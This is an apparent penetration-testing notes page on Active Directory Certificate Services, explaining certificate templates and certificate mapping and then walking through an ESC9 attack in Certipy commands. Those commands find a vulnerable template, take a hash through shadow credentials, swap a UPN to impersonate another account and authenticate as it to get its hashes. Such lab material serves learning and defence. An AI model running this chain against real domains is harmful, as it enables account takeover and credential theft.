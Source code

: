 ```yaml
---
description: AD CS | PKI Signature | Certificate | Misconfigured | CA |
---
```


# Certificate templates

Active Directory Certificate Services (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview" %}

In short you can think of this as a way to prove identification very much like how a Kerberos ticket works. AD CS is a server role that functions as Microsoft’s public key infrastructure PKI implementation. Some key words:

| Keyword                                            | Description                                                                                               |
| -------------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **PKI** (Public Key Infrastructure)                | a system to manage certificates/public key encryption                                                     |
| **AD CS** (Active Directory Certificate Services)  | Microsoft’s PKI implementation                                                                            |
| **CA** (Certificate Authority)                     | PKI server that issues certificates                                                                       |
| **Enterprise CA**                                  | CA integrated with AD (as opposed to a standalone CA)                                                     |
| Certificate Template                               | collection of settings and policies that defines the contents of a certificate issued by an enterprise CA |
| **CSR** (Certificate Signing Request)              | a message sent to a CA to request a signed certificate                                                    |
| **EKU** (Extended/Enhanced Key Usage)              |  object identifiers (OIDs) that define how a certificate can be used                                      |

AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. A user can request a certificate based on a predefined certifcate template. These templates specifies the settings for the final certificate, like can it be used for authentication, what properties defined, who can enroll.&#x20;

### <mark style="color:yellow;">Certifcate mapping</mark>

{% hint style="info" %}
Names like **ESC3** or **ESC9** refer to specific certificate templates that can be exploited.
{% endhint %}

There have misconfigurations found in ESC1, ESC2, ESC3, ESC8, ESC9 and ESC10. Below we will go through the ESC9 which uses certificate mapping. Certificate mapping is the part of certificate authentication where the DC takes a principal like user or computer data provided in the certificate used uring authentication, and attempts to map this to a user or computer.

#### Implicit mapping

Here the information contained in the ceritificate's SAN or Subject Alternative Name is used to match the UPN attribute or `userPrincipalName` for a user or DNS `dNSHostName` for  machine account. In case of a user account, the `otherName` component of the SAN is used, for machine `dNSName`.

If the UPN mapping fails the DC will attempt to match the username contained in `otherName` with `sAMAccountName` attribute, and then with `sAMAccountName` suffixed with `$`. Similar with DNS.

#### Explicit mapping

In case of explicit mapping, the altSecurityIdenties attribute of an account user or machine must contain identifiers of the certificates with which is authorised to authenticate. Certificate must be signed by a trusted certification authority, and match one of the values in `altSecurityidentities`.&#x20;

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>Source: The Hacker Recipes. Identifiers X509 v3 certificate</p></figcaption></figure>

Read more on Hacker Recipes about weak and strong mappings and labels.[https://www.thehacker.recipes/ad/movement/adcs/certificate-templates](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates)

### <mark style="color:yellow;">Example ESC9</mark>

Microsoft has introduced the `CT_FLAG_NO_SECURITY_EXTENSION` flag for the `msPKI-Enrollment-Flag` attribute of certificate templates. If present, the CA will not include the user's SID when issuing certificates&#x20;

{% hint style="info" %}
Certipy will now check for ESC1, ESC2, ESC3, ESC4, and the new ESC9 on certificate templates.
{% endhint %}

Using certifpy we can search for vulnerabilities. ESC9 requirements:

* `SrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

```bash
certipy find -u 'ca_operator' -p 'newP@ssword2022' -dc-ip 10.10.11.41 -vulnerable -stdout
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption><p>Has no security extension.</p></figcaption></figure>

Get user hahes which [shadow-credentials.md](shadow-credentials.md "mention")or&#x20;

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Next change the userPrincipalName from user2 to user3

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

Request vulnerable certificate as user2

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template CertifiedAuthentication
```

Change user2 UPN back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Authenicate as user3 and get hashes

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

